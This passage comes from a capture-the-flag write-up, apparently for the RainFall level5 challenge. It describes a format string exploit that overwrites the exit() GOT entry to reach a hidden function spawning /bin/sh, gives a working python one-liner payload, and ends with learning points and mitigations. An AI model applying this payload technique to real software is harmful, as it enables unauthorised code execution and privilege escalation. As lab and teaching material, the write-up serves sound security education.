 **Success Analysis:**
1. **Payload executed**: 134+ million characters were printed (this takes time!)
2. **GOT hijacked**: exit() GOT entry overwritten with address of o()
3. **Control flow redirected**: When exit() was called, jumped to o() instead
4. **Shell obtained**: Function o() executed system("/bin/sh")
5. **Privilege escalation**: Now running as level6 user

### 17. Alternative Execution Method
```bash
# If you prefer not to wait for the output:
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' | ./level5 > /dev/null &
# This runs in background and suppresses output
```

## Educational Analysis - Why This Works

### 18. The Vulnerability Chain
```
1. Format String Vulnerability:
   printf(user_input) allows arbitrary memory reads/writes

2. GOT Table Writability:
   Dynamic linking requires writable function pointers

3. Hidden Code Existence:
   Function o() contains desired system() call but is unreachable

4. PLT/GOT Mechanism:
   All library calls go through PLT stubs that jump to GOT addresses

5. Format String Precision:
   %n allows writing exact values calculated from character counts
```

### 19. Learning Points and Security Implications

**Format String Vulnerabilities:**
- **Never use `printf(user_input)`** - always use `printf("%s", user_input)`
- Format strings provide **arbitrary memory read/write** capabilities
- **%n specifier** is particularly dangerous as it writes to memory

**Dynamic Linking Security:**
- **GOT tables are writable** by design for lazy loading
- **Function pointers** become attack vectors when writable
- **RELRO** (Read-Only Relocations) is a modern mitigation

**Binary Analysis Techniques:**
- **`info functions`** reveals all available functions, including unused ones
- **`objdump -R`** shows relocation entries (GOT addresses)
- **Stack position discovery** using format string position testing
